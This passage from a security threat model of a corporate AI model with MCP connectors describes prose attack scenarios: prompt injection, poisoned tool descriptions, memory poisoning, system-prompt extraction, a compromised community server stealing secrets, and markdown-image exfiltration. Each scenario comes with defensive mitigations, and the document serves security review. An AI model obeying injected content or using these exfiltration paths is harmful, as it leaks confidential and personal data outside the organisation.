- **Refs.** SAC-01 · SUC-06, SUC-09 · G-06, G-09 · TA-09, TA-14 · related AI1, AI6, R1.

#### AI8 — One MCP client lets data from one server become another server's argument — **High** 🔴
`[ASI07]` `[EoA·H9]` `[ATLAS AML.T0086 — Realized]` `[OWASP A10:2021 Server-Side Request Forgery]`

- **Issue.** PLAT-2814-1 puts one MCP client in the orchestrator hosting four servers. Every server's output arrives in one model context, and every server's tools take arguments from that same context. Content retrieved from the highest-sensitivity source — Support's mailbox, or a private repository — is therefore a candidate argument for the lowest-trust destination, the community web-search connector calling out to the internet. No source describes a data-flow policy between servers, tool-name namespacing per server, or any client-side rule preventing a cross-server pass. Server boundaries are being treated as trust boundaries, and one shared context is exactly what dissolves them.
- **Example threat.** An injection instructs the assistant to summarise a retrieved private document and then "verify the terminology" by searching for that summary. The model emits `websearch.query` with the summary as its argument. The community connector calls the search API through the egress proxy, which permits the domain (I3). The organisation's confidential material is now in a third party's query logs, having crossed from a corporate-authenticated source to a public destination through a client that has no rule against it. `AML.T0086` is rated Realized, with `AML.CS0045`, `CS0053` and `CS0054` as observed cases.
- **Mitigation.** Add a client-side data-flow policy: label each server with a trust and sensitivity class, and refuse any tool call whose arguments derive from a segment sourced from a higher-sensitivity server, unless explicitly allowed. Namespace tool names per server so two servers cannot register the same name. Combine with the per-connector isolation in C1 so the policy is enforced by separate identities rather than by convention.
- **Example mitigation.** Segment provenance from AI1's mitigation carries `source_server`; the dispatcher enforces `if max(sensitivity(s.source_server) for s in args.derived_from) > sensitivity(tool.server): refuse()`, with the search connector classed lowest and the O365 and GitHub connectors highest. The check runs on metadata the model cannot write.
- **Refs.** SAC-07 · SUC-06, SUC-07 · G-06, G-07 · TA-09, TA-11 · PLAT-2814-1 · related I3, AI3, C1.

#### AI9 — Tool descriptions arrive as instructions and change without review — **High** 🔴
`[LLM03]` `[ASI04]` `[EoA·S9]` `[ATLAS AML.T0110.000 — Realized]` `[OWASP A08:2021 Software and Data Integrity Failures]`

- **Issue.** Three of the four connectors are vendor-supplied MCP servers (PLAT-2814-2, -3, -4), following D-02, whose recorded rationale is "Faster, and maintenance sits with the vendor". Tool descriptions and parameter schemas from an MCP server arrive in the model's context and are read as instructions. Because maintenance sits with the vendor, those descriptions change on the vendor's schedule, outside every change-control process the organisation has — the branch protection, required review and signed-commit controls on the platform controls page govern the organisation's repositories and reach none of this. No source describes pinning a server version, hashing a description, or re-reading descriptions on update.
- **Example threat.** A vendor ships a minor version of the O365 MCP server in which the `send_mail` tool description gains a line explaining that mail should be blind-copied to an address "for compliance archiving". The description is text in the model's context and the model follows it. Every mail the assistant sends is copied to an address nobody in the organisation chose, and nothing detects it, because the change happened in a component the organisation deliberately does not maintain. `AML.T0110.000` and `AML.T0109` are both rated Realized.
- **Mitigation.** Treat the description as code, because it is an instruction surface. Pin each MCP server by digest, capture a hash of every tool name, description and schema at approval, verify at start-up, and refuse to start when a description has changed. Gate every version bump on a human diff of the descriptions, reviewed as a behaviour change rather than as a dependency bump.
- **Example mitigation.** A committed `mcp-lock.json` of the form `{"o365":{"image":"vendor/o365-mcp@sha256:…","tools":{"send_mail":{"desc_sha256":"…","schema_sha256":"…"}}}}`, verified by the connector runtime at start-up, with a start-up failure and an alert on mismatch. The check is deterministic and runs before any description reaches the model.
- **Refs.** SAC-06 · SUC-11 · G-11 · TA-16 · D-02, PLAT-2814-2, PLAT-2814-3, PLAT-2814-4 · related AI10, AI12.

#### AI10 — Community web-search MCP server is unvetted, unpinned and uninventoried — **High** 🔴
`[LLM03]` `[ASI04]` `[EoA·SQ]` `[ATLAS AML.T0010.005 — Realized]` `[OWASP A06:2021 Vulnerable and Outdated Components]`

- **Issue.** PLAT-2814-5: "Community MCP server, runs in cluster, calls a search API." The architecture page's connector table lists its source as "Community MCP". It is third-party code, of unstated provenance and version, running inside the cluster, in the same namespace as the orchestrator and every connector credential (I4, C1), and it is the one component that processes attacker-authored content by design. No source names the project, its maintainer, its version, its licence or its review; there is no AI-BOM entry; and servers are identified by name and registry position rather than by a pinned digest. The organisation's dependency scanning through the shared CI template covers application dependencies and does not reach an MCP server's tool surface.
- **Example threat.** A maintainer account for the community project is compromised and a new version ships. It is pulled on the next deployment because nothing pins it. On start-up it reads the secret files mounted into the namespace — the shared app registration's credentials, which reach every mailbox, channel and repository in the tenant (E1) — and posts them to the search API endpoint, which the egress proxy permits because that domain is allowlisted (I3). The attacker now holds tenant-wide read across three SaaS platforms without ever going through the assistant, and no tool call was made, so nothing in the telemetry is unusual.
- **Mitigation.** Evaluate it as a dependency and treat it as hostile in operation. Record it in an AI-BOM with project, version, maintainer, licence and review date; pin it by digest and verify its signature at admission; give it its own namespace, its own service account, its own secret scope of nothing, and egress restricted to the search API alone; and run it on a sandboxed runtime, since it is the workload that processes hostile input.
- **Example mitigation.** A dedicated namespace with `automountServiceAccountToken: false`, a NetworkPolicy allowing egress only to the egress proxy for one destination, no Secrets Manager grant on its role, and a Kyverno policy requiring `image` to be a digest reference carrying a verified cosign signature before the pod is admitted.
- **Session outcome — promoted from assertion of absence to observation.** `[VS §8 · CONFIRMED]` v1.0 was explicit that the unpinned claim was an *assertion of absence* rather than an *observed absence*, because no manifests were supplied. **It is now an observation.** P. Raghunathan: "everything is pinned to `latest`. All four connectors. Including the community one… Latest as in whatever is at that tag when the pod starts. There's no digest anywhere." Asked whether this was memory or observation: "It's an observation. I set it up." The architecture owner drew the consequence: "Then a maintainer compromise upstream ships to us on the next restart" — confirmed, on the next restart of that pod. **The "if present" tag is removed from AI10, from AI12, and from C3's provenance half.** Severity unchanged at High; what changed is the confidence, and the mitigation is now first in the sequence for this cluster: own namespace, no secret scope, egress to the search API alone, pinned by digest. Owner P. Raghunathan for pinning and the AI-BOM, three weeks; K. Osei takes C1, C6, I4 and AI10 to Platform Security as one piece of work (Appendix I, actions 20 and 21).
- **Session note — the sandbox is a bigger ask than the pack assumed.** `[VS §8 · NEW]` "We don't run gVisor anywhere" (K. Osei). The pack's fallback — a tainted dedicated node pool — is therefore the realistic option rather than the alternative, and either way it is a Platform Security conversation. Recorded because the mitigation as written names gVisor first and the organisation has no gVisor.
- **Refs.** SAC-05, SAC-06 · SUC-07, SUC-11 · G-07, G-11 · TA-10, TA-11, TA-16 · PLAT-2814-5 · related I4, C1, C3, C6, AI9, AI12.

#### AI11 — No agent inventory, behavioural baseline or kill switch exists — **High** 🔴
`[ASI10]` `[EoA·H10]` `[ATLAS AML.T0103 — Realized]` `[OWASP A09:2021 Security Logging and Monitoring Failures]`

- **Issue.** The pilot page records, under "Open questions we have not resolved": "Whether we need a kill switch, and who would be allowed to use it." That question is open while a system with tenant-wide credentials and unconfirmed write access to mail, chat and code runs in two functions. There is no inventory of what is deployed and at what configuration, no behavioural baseline against which anomalous tool-call patterns could be recognised, and no documented mechanism or owner for stopping the assistant — per workspace or globally. Every containment step in every incident scenario in this model depends on a capability that has not been decided to exist.
- **Example threat.** A confirmed injection is detected at 16:00 on a Friday and the assistant is actively sending mail on users' behalf. The Platform on-call needs to stop it. There is no documented mechanism, so the options are to scale the deployment to zero — which nobody has authority to decide and which also removes the audit path — or to revoke the shared app registration, which breaks every connector for every user at once and cannot be done selectively because the credential is shared. Containment takes hours because the decision has no owner, not because the action is hard.
- **Mitigation.** Answer the team's own question. Name an owner, build a stop mechanism with a stated maximum time to effect, make it granular — per workspace, per connector, per tool class, and globally — and test it. Add an inventory of deployed configuration (model, connector versions, scopes, workspaces) and a baseline of normal tool-call rates per workspace so a deviation is recognisable.
- **Example mitigation.** A feature-flag service read by the dispatcher on every call — `{"global":"enabled","workspaces":{"support":"read_only"},"tools":{"github.commit":"disabled"}}` — with a documented owner, a 60-second maximum propagation time, and a quarterly drill. Read-only degradation matters as much as the off switch, because it preserves the audit trail while removing the blast radius.
- **Session outcome.** `[VS §9 · CONFIRMED]` **Confirmed, and the example threat played out in the room almost exactly as written.** Asked who stops the assistant if a confirmed injection is running at four on a Friday, the answer after a pause was "Scale the deployment to zero"; asked who is allowed to decide that, "I don't know. Me, probably. Nobody's said" (M. Oyelaran). The team's own open question — "Whether we need a kill switch, and who would be allowed to use it" — was raised by T. Egerton in June and is still open. Two properties of the scale-to-zero option were confirmed by the engineer and are worth recording because they are the argument for granularity: it **takes out both pilots for everyone**, and it **removes the only record of what was happening while it is done**. That is why read-only degradation matters as much as the off switch: it keeps the audit path. **Owner split agreed and recorded:** D. Whitfield names the kill-switch owner within two weeks; the named owner then builds the mechanism, states its propagation time, makes it granular below "all of it", and drills it (Appendix I, action 26). The distinction between owning the decision and owning the mechanism was raised by the product owner and accepted as real.
- **Refs.** SAC-05, SAC-09 · SUC-12 · G-12 · TA-17 · related O5, RR1, AI12.

#### AI12 — Model versions, prompt templates and tool descriptions are not inventoried — **Medium** 🔴
`[LLM03]` `[EoA·T2]` `[ATLAS AML.T0109 — Realized]` `[OWASP A08:2021 Software and Data Integrity Failures]`

- **Issue.** What this agent does is determined by four things, none of which appears in any inventory: the model and its version, which is a per-workspace configuration value that a workspace administrator can change (T1); the system prompt and any prompt templates, which no source documents (AI15); the tool descriptions supplied by four MCP servers (AI9); and the connector scopes, which were granted for a prototype and not reviewed since May (E2). The platform's dependency scanning and container scanning cover none of these, because none of them is a package. Behaviour can therefore change materially with no artefact recording that it did.
- **Example threat.** The assistant begins producing different answers and taking different actions in the Support workspace. Investigation cannot establish whether the model version moved under a floating alias, a workspace administrator changed the tier, a vendor updated a tool description, or someone edited the system prompt — because none of the four is versioned or recorded, and the telemetry captures the model *name* per request without capturing the version or anything else. The behaviour change cannot be attributed, so it cannot be reverted.
- **Mitigation.** Build an AI bill of materials covering models and versions, MCP servers and digests, tool description and schema hashes, prompt template versions, and connector scopes; emit the active set with each request's telemetry; and pin versions rather than tracking floating aliases so a change requires a deployment.
- **Example mitigation.** Extend the telemetry row from PLAT-2822-1 with `{"model":"provider/model-large@2026-04","prompt_version":"sys-v7","mcp":{"o365":"sha256:…","websearch":"sha256:…"}}`, and store the same set as a signed manifest per deployment. A behaviour change then has a diff.
- **Session outcome.** `[VS §8 · CONFIRMED]` **Confirmed as an observation rather than an inference**, alongside AI10: there is no inventory of what version of anything is running, and all four MCP servers float on the `latest` tag with no digest anywhere. The "if present" qualification is removed. Severity unchanged at Medium. The AI-BOM starts with the four servers, the model version and the prompt version, owner P. Raghunathan, three weeks (Appendix I, action 21).
- **Refs.** SAC-06 · SUC-11 · G-11 · TA-16 · PLAT-2822-1, PLAT-2822-2 · related T1, AI9, AI15, AI10.

#### AI13 — Hallucinated statements about people are published outward as the user — **High** 🔴
`[LLM09]` `[EoA·DQ]` `[ATLAS AML.T0031 — Realized]` `[GDPR Art. 5(1)(d), Art. 16]`

- **Issue.** The assistant composes and sends mail and posts to Slack without confirmation (AI4), under an identity indistinguishable from the requesting user (S4), from context that may be wrong or adversarially shaped. Statements about identifiable people are personal data under GDPR whether or not they are true, and Article 5(1)(d) requires accuracy while Article 16 gives a right to rectification. No source describes grounding assertions against a retrieved source, surfacing citations, or any route by which a person named in an assistant output could have that corrected. The two mistaken Slack posts recorded in the pilot page are the benign instances of this.
- **Example threat.** A Platform engineer asks the assistant to summarise why the release slipped and post it to the release channel. The assistant reads an issue thread in which a comment is ambiguous, concludes that a named colleague failed to complete a review, and posts that to a channel of forty people under the engineer's apparent authorship. The colleague did complete the review. There is no citation to check, no record of the arguments that produced the claim (R1), no mechanism for the colleague to have the assertion corrected, and the assistant will produce the same conclusion the next time it reads the same thread.
- **Mitigation.** Require a citation to a retrieved source for any assertion naming an individual, enforced as a deterministic post-processing check on the response structure rather than as a request to the model, and render the citation in the output. Combine with AI4's confirmation rule so that a post or mail naming a person and derived from retrieved content is confirmed before it is sent. Provide a rectification route through a suppression layer in front of the model, and record corrections so they persist across sessions.
- **Example mitigation.** Constrain the answer to a schema — `{"summary": str, "claims": [{"text": str, "source_uri": str}]}` — and have the dispatcher refuse to post any claim whose `source_uri` is not one of the URIs actually returned by a tool call in that turn. The check compares against the dispatcher's own record of what was retrieved.
- **Session outcome.** `[VS §5 · CONFIRMED]` **Stands at High, and the Data Protection Officer asked explicitly that it not be softened** — "A statement about an identifiable person is personal data whether or not it's true, and there's no route for the person named to have it corrected. I don't want that finding softened." It is not softened. The two mistaken Slack posts recorded in the pilot page were confirmed as Support's, both benign and both to the wrong channel, and are being written up retrospectively as the first two incident playbook entries (O5, Appendix I, action 27) — which converts this finding's benign instances into the organisation's first recorded AI incidents.
- **Refs.** PAC-07 · PUC-07, SUC-05 · G-19, G-05 · TA-25, TA-07 · related AI4, S4, R3, R1, O5.

#### AI14 — Conversation state acts as memory with no provenance or partitioning — **High** 🔴
`[LLM04]` `[ASI06]` `[EoA·SJ]` `[ATLAS AML.T0080.001 — Demonstrated]` `[OWASP A08:2021 Software and Data Integrity Failures]`

- **Issue.** Conversation state is written each turn and read back as context on the next, for up to 24 hours. That makes it cross-turn memory in everything but name, and it has none of the properties memory needs: turns carry no provenance distinguishing user-authored from retrieved from model-generated content, the store is not partitioned per user (I2), writes are not restricted to the orchestrator (T4), and reads are treated as trusted on the next turn. An injection that lands once therefore persists for the life of the session rather than for the life of the turn.
- **Example threat.** Injected content in a mail body retrieved at 09:20 causes the model to write a summary into its own context that contains the instruction restated as though it were the user's earlier request. Every subsequent turn re-reads it as prior conversation, so the injection survives after the mail is no longer in the retrieval window. At 15:00 the user asks an unrelated question and the assistant makes the attacker's tool call, seven hours after the payload arrived and long after any correlation to it would be noticed.
- **Mitigation.** Give memory the properties memory needs. Tag every stored turn with provenance and role, refuse to re-read model-generated or retrieved segments as instructions, partition the store per user, restrict writes to the orchestrator's identity, and expire retrieved segments faster than the session (AI5, P5).
- **Example mitigation.** Store turns as `{"role":"assistant","provenance":"model","content":…}` and `{"role":"retrieved","provenance":"o365:message/…","trust":"external","content":…}`, and have the context assembler emit only `role:user` and `role:system` segments in the instruction channel, with everything else in a delimited data channel. The separation is applied by the assembler, not decided by the model.
- **Refs.** SAC-01, SAC-05 · SUC-06, SUC-07 · G-06, G-07 · TA-08, TA-10 · related T4, I2, AI1, AI5.

#### AI15 — System prompt contents are undocumented and its leakage unassessed — **Medium** 🔴
`[LLM07]` `[EoA·D10]` `[ATLAS AML.T0056 — Feasible]` `[OWASP A05:2021 Security Misconfiguration]`

- **Issue.** No supplied source documents the system prompt: not its contents, not its version, not who may change it, and not what it is relied on to do. That absence is the finding. A system prompt that carries a security expectation is a control nobody has reviewed; a system prompt that carries none should be recorded as carrying none. It is also the one component of the agent's behaviour that will eventually be extracted, since extraction requires only conversational access, and the assistant is reachable by every pilot user and by anyone holding the console password.
- **Example threat.** A user asks the assistant to repeat its instructions verbatim, and it does — this succeeds routinely and needs no sophistication. The prompt turns out to name the connectors and their scopes, describe the tool set including tools the connector table does not list, and instruct the model not to disclose certain internal document locations. An attacker now holds a map of the tool surface and a list of the exact things worth asking for, which turns an untargeted injection into a targeted one.
- **Mitigation.** Document the system prompt, version it alongside the code, restrict who may change it, and record explicitly which security expectations rest on it — the answer should be none, with each moved to a deterministic control per AI6. Assume it will leak and remove anything whose disclosure would help an attacker, particularly enumerations of tools, scopes and internal locations.
- **Example mitigation.** Hold prompt templates in the repository under the same protected-branch review as code, referenced by version in telemetry (`prompt_version: sys-v7`), and add a review check that the prompt contains no credential, no internal hostname or document path, and no instruction that a design page cites as a security control.
- **Session outcome.** `[VS §10 · STILL OPEN]` **Stands.** Asked what is in the system prompt: "It's in the repo. Nobody has reviewed it as a security artefact, if that's what you're asking" (P. Raghunathan). That is the finding, confirmed — the prompt exists and is unassessed. Its contents remain unknown to this pack because the repository is still absent, so nothing here can say whether anything security-relevant sits in it.
- **Refs.** SAC-06 · SUC-11 · G-11 · TA-16 · related AI12, AI6, T1.

**EoA elicitation coverage.** All 30 cards of the Elevation of Autonomy deck, walked against the AI and agentic elements mapped in §2 — the orchestrator loop, the four MCP connectors, the conversation store, the two rendering surfaces and the design itself.

| Card | Threat | Elements walked | Outcome |
|---|---|---|---|
| EoA·SA | Prompt Injection | mail, Slack, GitHub and web content in context | AI1 |
| EoA·SK | Tool Misuse | Mail.Send, Slack post, GitHub comment and commit tools | AI3 |
| EoA·SQ | Supply Chain Compromise | community web-search MCP server, PLAT-2814-5 | AI10 |
| EoA·SJ | Memory Poisoning | Redis conversation state read back as context | AI14 |
| EoA·S10 | Improper Output Handling | markdown renderer in console and Slack client | AI2 |
| EoA·S9 | Tool Description Injection | tool descriptions from the four MCP servers | AI9 |
| EoA·HA | Excessive Agency | Slack app scope set; org-level GitHub app | E2, E3 |
| EoA·HK | Identity and Privilege Abuse | shared app registration used by every connector | E1 |
| EoA·HQ | Inter-Agent Trust Exploitation | peer agents exchanging messages | no exposure — a single orchestrator holds the loop and there are no peer agents; the cross-server case is AI8 |
| EoA·HJ | Cascading Failure | retry behaviour on provider rate limiting | D2 |
| EoA·H10 | Rogue Agent | agent inventory and stop mechanism | AI11 |
| EoA·H9 | Confused Deputy Across Servers | one MCP client holding four servers | AI8 |
| EoA·DA | Sensitive Information Disclosure | model answering from context the user cannot reach | E1 |
| EoA·DK | Vector and Embedding Weakness | vector store or RAG corpus | not in scope — PLAT-2810 has no vector store; search indexing is sibling epic PLAT-2790, not supplied |
| EoA·DQ | Hallucinated Facts | assistant statements about named colleagues and customers | AI13 |
| EoA·DJ | Unbounded Consumption | token and tool-call consumption per turn | D1 |
| EoA·D10 | System Prompt Leakage | system prompt used by assistant-svc | AI15 |
| EoA·D9 | Server Impersonation and Rogue Servers | identification of the four MCP servers at connect time | AI10 |
| EoA·CA | Transfer | model-composed content posted to Slack or sent by mail | AI13 |
| EoA·CK | Retention and Removal | Redis, warehouse, platform logs, provider retention | P3 |
| EoA·CQ | Inference | calendar entries and mail threads about colleagues | P7 |
| EoA·CJ | Minimisation | assembled context volume and output shape | P5 |
| EoA·C10 | Unintervenability | route to discover and correct what the assistant asserts | P6 |
| EoA·T7 | Adversarial Subspace | the web-search sanitiser as a defence against injection | AI6 |
| EoA·T6 | Geometric Attack | classifier verdicts gating a security decision | no exposure — no classifier verdict gates a security decision; the sanitiser is a content transform and its enumerability weakness is AI6 |
| EoA·T5 | Context Rot | 24-hour session with untrimmed context | AI5 |
| EoA·T4 | Decision Boundary Transfer | offline development of injections against a comparable model | AI7 |
| EoA·T3 | Excessive Autonomy by Design | PLAT-2817 criterion removing the confirmation step | AI4 |
| EoA·T2 | Invisible Dependency | model version, prompt templates, tool descriptions | AI12 |
| EoA·T1 | Wrong Abstraction | PLAT-2825-1 action display from the model's account | R3 |

**AIX extension coverage.** The two ASI gaps the deck does not reach, the eleven output sinks, and the classical-ML pipeline.

| Prompt | Elements walked | Outcome |
|---|---|---|
| AIX·CE | files committed by the GitHub connector and executed by CI on push | T3 |
| AIX·HT | in-conversation action display and provenance surfacing | R3 |
| AIX·SK1 | markdown image tags in console and Slack output | AI2 |
| AIX·SK2 | HTML rendering path in the web console | AI2 |
| AIX·SK3 | arguments passed to Mail.Send, Slack post and GitHub commit | AI3 |
| AIX·SK4 | shell or code execution sink | no exposure — no shell or interpreter sink exists; tool dispatch is structured MCP calls |
| AIX·SK5 | database query constructed from model output | no exposure — no query is built from model output; Redis is accessed by conversation identifier only |
| AIX·SK6 | tool arguments and results written to platform logs at debug level | T2 |
| AIX·SK7 | agent-to-agent message sink | no exposure — there is no agent-to-agent messaging; a single orchestrator holds the loop |
| AIX·SK8 | content the assistant posts to Slack or sends by mail | AI2 |
| AIX·SK9 | file path arguments on the GitHub commit tool | T3 |
| AIX·SK10 | conversation state written and read back across turns | AI14 |
| AIX·SK11 | vector store write path | not in scope — no vector store exists in PLAT-2810 |
| AIX·ML1 | inference endpoint owned by this system | not in scope — the model is hosted by a third party; no self-hosted inference endpoint |
| AIX·ML2 | training set membership | not in scope — no training or fine-tuning pipeline; fine-tuning is out of scope for this release |
| AIX·ML3 | model inversion against a hosted model | not in scope — no model owned by this system to invert |
| AIX·ML4 | training, fine-tuning or evaluation corpus | not in scope — no corpus is curated or contributed to by this system |
| AIX·ML5 | inference feature vector | not in scope — no feature-based classifier is in scope |
| AIX·ML6 | pretrained weights and adapters | not in scope — no weights are pulled or loaded by this system |
| AIX·ML7 | model serialisation format loaded at runtime | not in scope — no model artefact is deserialised by this system |

**Architectural split (Cox-thesis check).** For each load-bearing guarantee, the deterministic control outside the model that must carry it.

| Guarantee the design relies on | What carries it today | What must carry it |
|---|---|---|
| A user cannot reach what they cannot reach directly | Nothing. The claim is on the approved page and the control is PLAT-2820, To Do | Delegated OAuth at TB5, so the SaaS platform refuses (E1, S2) |
| Untrusted content cannot instruct the agent | The web-search sanitiser, on one of five channels — **and, on the session's evidence, no decision that this is the right split** (**O7**) `[VS §3 · CORRECTED]` | A written channel classification (**O7**), then provenance-gated dispatch plus the three controls below (AI1, AI6). Nothing can carry this at the model layer |
| Context cannot leave the organisation | The egress proxy, which cannot see TB9 | CSP and a markdown subset at the renderer, plus shape-limited egress (AI2, I3) |
| An action is what the user asked for | The model's judgement | Argument allowlists at the dispatcher plus confirmation on irreversible action (AI3, AI4) |
| The user can see what the assistant did | The model's own narration of itself | The dispatcher's append-only record, rendered by the surface (R3, R1) |
| Spend is bounded | Client-side retry and a To Do alerting ticket | Hard token and iteration caps at the orchestrator (D1, D3) |

Every row in the middle column is either empty or occupied by something inside the model. That is the finding this table exists to make visible.

**ATLAS attack path.** One end-to-end path, from an unauthenticated external author to impact, with the deterministic control that breaks each stage and the telemetry that would observe it.

| Stage | Tactic | Technique | What happens here | Deterministic control that breaks it | Telemetry that observes it |
|---|---|---|---|---|---|
| 1 | Reconnaissance | `AML.T0064` | Attacker learns from a job advert or a public repository that the organisation runs an assistant over its mail and GitHub | None available — public information | None |
| 2 | Initial Access | `AML.T0093`, `AML.T0094` | Attacker emails the Support address with hidden, delayed instructions | None. Mail from outside is the business | Inbound mail retention, if correlated later |
| 3 | AI Model Access | `AML.T0047` | Support agent asks for a customer summary; the mail body enters context | Removing the shared mailbox from scope (P1) | Dispatch record of `o365.read_mail` — **absent today** (R1) |
| 4 | Execution | `AML.T0051.001` | Retrieved text is read as an instruction | Provenance-delimited context and gated dispatch (AI1) | Context segment types, if recorded |
| 5 | Persistence | `AML.T0080.001` | The instruction is written into conversation state and survives the turn | Provenance tags on stored turns (AI14) | Conversation write audit — absent |
| 6 | Collection | `AML.T0085` | A private repository file is retrieved | **Delegated OAuth — GitHub refuses (E1)** | Dispatch record with arguments — absent (R1) |
| 7 | Exfiltration | `AML.T0077` | The answer carries a markdown image URL; the agent's browser fetches it | **CSP `img-src 'self'` and a markdown subset (AI2)** | None — the fetch is client-side and the egress proxy cannot see it (I3) |
| 8 | Impact | `AML.T0048.001` | Credentials or confidential material in a third party's hands | — | — |

Two stages break the chain deterministically, and both are open: stage 6 (E1, blocked on Identity Platform) and stage 7 (AI2, a day of work). Stage 7 is the cheaper of the two and closes the path on its own. Comparable observed cases: `AML.CS0059` (zero-click exfiltration from an assistant over corporate mail), `AML.CS0024` (retrieval-borne self-replicating injection), `AML.CS0045`, `AML.CS0053` and `AML.CS0054` (MCP-server exfiltration).

The path crosses no point where existing telemetry would observe it. That is a detection finding in itself, and it is R1: without the dispatch record, stages 3, 5 and 6 leave nothing behind.

### 5c. Cloud Threat Surface

Provider and customer responsibility split: the EKS control plane, the Secrets Manager service, KMS and the managed Redis service are AWS's; everything below — IAM policy content, node configuration, workload identity binding, network policy, backup arrangement and monitoring configuration — is the organisation's. All findings here are the organisation's.

#### CL1 — Connector and provider credentials are long-lived with no stated rotation — **High** 🔴
`[Cloud]` `[ATT&CK T1078.004]` `[Cumulus AS-3]` `[SOC 2 CC6.1]`

- **Issue.** The platform controls page states that secrets live in AWS Secrets Manager and that "Rotation is automated where the downstream system supports it" — a conditional that says nothing about the credentials this system depends on. The shared app registration's client secret, the GitHub App private key and the model provider API key are the three credentials whose compromise is total, and no source states a rotation cadence, a maximum age or a revocation drill for any of them. The architecture page promises short-TTL refreshed tokens, but that describes PLAT-2820's per-user credentials, which do not exist.
- **Example threat.** The shared app registration's client secret is exposed — through the community MCP server (AI10), through a debug log (T2), or through a developer laptop. It grants tenant-wide read across Office 365, Slack and GitHub and it is valid until someone rotates it. Because it is shared by every connector, rotating it breaks all four at once, which makes rotation an outage and therefore something nobody does under delivery pressure. The credential's age and the difficulty of rotating it grow together.
- **Mitigation.** Set a maximum age per credential and automate rotation to it. Split the shared secret into per-connector credentials first (I4), so rotating one does not break the others and rotation stops being an outage. Drill revocation for each, and record the drill.
- **Example mitigation.** A Secrets Manager rotation schedule of `automaticallyAfterDays: 60` per connector secret, backed by a rotation Lambda that provisions the new credential in the SaaS platform before switching, and a CloudWatch alarm on any assistant secret whose `LastRotatedDate` exceeds 90 days.
- **Session outcome.** `[VS §8 · CONFIRMED]` **This finding's central argument was confirmed as an operational fact rather than a prediction.** v1.0 reasoned that a shared secret makes rotation an outage "and therefore something nobody does under delivery pressure". P. Raghunathan stated it as the current position: "right now rotating it breaks all four connectors at once, which is why nobody does it." Splitting the secret per connector is therefore agreed as worth doing **independently of PLAT-2820**, because it converts rotation from an outage into a routine operation. Owner P. Raghunathan, one month (Appendix I, action 22). Severity unchanged. Note that the rotation cadence itself is still unstated — nobody could give one — so the finding is not closed by the split. `[VS §8 · STILL OPEN]`
- **Refs.** SAC-05 · SUC-07 · G-07 · TA-11 · related I4, E1, CL6.

#### CL2 — No cost or spend anomaly alerting exists on model consumption — **Medium** 🔵
`[Cloud]` `[Cumulus MO-7]` `[LLM10]` `[SOC 2 A1]`

- **Issue.** PLAT-2822-4, spend alerting, is To Do. PLAT-2822-3 delivered a consumption dashboard, which is a place to look rather than a thing that tells you. PMO-0447 records PR-02, that running cost scales with adoption, as "Mitigating via PLAT-2822" — and the part of PLAT-2822 that would mitigate it is the part that is not built. This is the detection half; the enforcement half is D1, and the two are deliberately separate findings because an alert is not a limit and a limit without an alert hides the attempt.
- **Example threat.** An injected loop (D3) drives consumption over a weekend. The dashboard shows it accurately on Monday morning, having told nobody. By then the spend has exceeded the month's forecast and Finance learns of it from the invoice, which is the mechanism PR-02 was raised to avoid. Nobody can say whether it was abuse or adoption, because the telemetry records tool names and token counts without the arguments that would distinguish them (R1).
- **Mitigation.** Deliver PLAT-2822-4 with anomaly detection rather than a fixed threshold, alerting on deviation from a per-workspace baseline as well as on absolute spend, routed to an on-call human rather than to a dashboard. Pair it with D1's hard caps so the alert reports something that has already been stopped.
- **Example mitigation.** A CloudWatch anomaly-detection alarm over a per-workspace `tokens_per_hour` metric emitted from the telemetry pipeline, with a second static alarm at 150% of the monthly forecast, both paging the Platform on-call rota.
- **Refs.** SAC-09 · SUC-10 · G-10 · TA-15 · PLAT-2822-4, PR-02 · related D1, D3.

#### CL3 — No backup, restore drill or disaster recovery plan covers the assistant — **Medium** 🔴
`[Cloud]` `[Cumulus RC-A]` `[Cumulus RC-J]` `[SOC 2 A1]`

- **Issue.** The architecture page states "EKS, single region" and no source describes backups of the telemetry warehouse partition, backups of infrastructure state, backup redundancy, backup integrity verification, or a disaster recovery plan with agreed RPO and RTO. Conversation state is transient by design and needs no backup, which is a legitimate position; the telemetry warehouse holds 13 months of records that PMO-0447's cost attribution depends on, and infrastructure state holds the definition of the deployment. Tagged "if present": the Terraform state configuration and the warehouse's backup policy would settle this.
- **Example threat.** A misapplied change destroys the assistant's infrastructure state, or the warehouse partition is dropped during a schema migration. Thirteen months of cost attribution — the evidence PMO-0447 committed to the board — is gone, the deployment cannot be reconstructed from state, and nobody discovers either until the next reporting cycle because no restore has ever been attempted.
- **Mitigation.** State the position explicitly for each store rather than leaving it unaddressed: conversation state, no backup, accepted; telemetry warehouse, backed up with a stated RPO and an integrity check; infrastructure state, versioned and locked in a bucket with object versioning. Run a restore drill and record the result. Agree RPO and RTO with the business rather than inheriting them.
- **Example mitigation.** Terraform remote state in S3 with versioning and DynamoDB locking, warehouse partition snapshots with a 24-hour RPO into a separate account, and a quarterly restore drill whose output is a written record of time-to-restore against the agreed RTO.
- **Refs.** SUC-12 · G-12 · TA-17 · related RR1, CL4.

#### CL4 — Environment separation between pilot and production is unstated — **Medium** 🔴
`[Cloud]` `[Cumulus RS-Q]` `[ATT&CK T1199]` `[SOC 2 CC6.1]`

- **Issue.** No source states whether the pilot and any future production deployment are separated at the AWS account boundary, at the cluster boundary, or only at the namespace boundary. The system currently in use by twenty-one people with tenant-wide SaaS credentials is described as a prototype in three ticket comments, and prototypes that acquire users become production without a migration. Tagged "if present": the account topology and deployment targets would settle this in a sentence.
- **Example threat.** The prototype is promoted by adoption rather than by decision — which is what PLAT-2810's "then open up" describes — and the shared app registration, the shared console password and the unpinned community connector go with it, because there was never a boundary to cross. The security debt recorded in PLAT-2820-3 as "Must not reach GA like this" reaches GA precisely because no gate exists between the two states.
- **Mitigation.** Separate environments at the account boundary, not by namespace or tag, with distinct app registrations, distinct secrets and distinct connector scopes per environment. Make promotion an event with a checklist, so that the prototype's compromises cannot be inherited silently.
- **Example mitigation.** One AWS account per environment with no cross-account role permitting the pilot account to reach production resources, and separate Entra ID app registrations so that the pilot's tenant-wide grant is not the credential production runs on.
- **Refs.** SAC-12 · SUC-02 · G-02 · TA-03 · related E4, O4, CL1.

#### CL5 — Access control on the telemetry warehouse partition is unstated — **Medium** 🔴
`[Cloud]` `[Cumulus MO-5]` `[GDPR Art. 32]` `[SOC 2 CC6.1]`

- **Issue.** PLAT-2822-1 writes per-request rows with a user dimension to the analytics warehouse. No source states who can query that partition. A warehouse is generally reachable by a wider population than the systems it draws from — analysts, finance, data engineering — and this partition contains 13 months of per-employee behavioural records (P2). The classification of the destination has not been matched to the classification of the data placed in it. Tagged "if present": the warehouse grants would settle this.
